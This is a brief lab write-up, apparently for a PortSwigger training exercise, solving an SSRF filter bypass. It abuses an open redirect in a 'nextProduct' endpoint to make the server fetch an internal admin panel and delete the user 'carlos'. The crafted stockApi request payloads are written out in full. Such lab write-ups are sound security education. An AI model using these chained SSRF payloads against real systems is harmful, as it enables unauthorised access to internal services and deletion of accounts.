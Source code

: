 # [Lab: SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

## Analysis

stockApi:

  ```http
  POST /product/stock HTTP/1.1

  stockApi=/product/stock/check%3fproductId%3d13%26storeId%3d1
  ```

- stockApi only accept local path

Detected Open redirect at `Next Product` button:

  ```http
  GET /product/nextProduct?currentProductId=13&path=/product?productId=14 HTTP/1.1
  ```

## Exploit

use open redirect vulnerability to bypass ssrf prevention:

  ```http
  POST /product/stock HTTP/1.1

  stockApi=/product/nextProduct%3fcurrentProductId%3d13%26path%3dhttp%3a//192.168.0.12%3a8080/admin
  ```

- this make the redirection happened on the server-side
- result: admin panel returned

delete carlos account:

  ```http
  POST /product/stock HTTP/1.1

  stockApi=/product/nextProduct%3fcurrentProductId%3d13%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos
  ```

solved
